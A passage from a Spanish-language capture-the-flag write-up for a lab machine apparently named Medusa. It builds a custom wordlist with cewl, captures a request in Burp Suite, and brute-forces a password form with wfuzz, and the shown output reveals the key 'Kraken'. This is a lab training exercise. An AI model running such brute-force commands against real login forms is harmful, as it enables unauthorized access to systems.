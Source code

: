Descubrimos una página que ya nos muestra algo:

![](/assets/images/medusa/door.png){: .align-center}


### Fuerza bruta a formulario

En este punto, vamos a crear un diccionario personalizado con los strings de la **página por defecto de Apache modificada** para realizar posteriormente fuerza bruta.

~~~bash
❯ cewl -w diccionario.txt http://192.168.1.135
CeWL 5.5.2 (Grouping) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
~~~

Capturamos la petición con *BurpSuite* para saber los parámetros a designar para la fuerza bruta:

![](/assets/images/medusa/burp.png){: .align-center}

Ahora usaremos *Wfuzz* para obtener la clave:

~~~bash
❯ wfuzz -c -w diccionario.txt -d 'word=FUZZ' -u 'http://192.168.1.135/hades/d00r_validation.php' -t 150 --hh 123
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.1.135/hades/d00r_validation.php
Total requests: 229

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                 
=====================================================================

000000222:   200        5 L      7 W        138 Ch      "Kraken" 
~~~
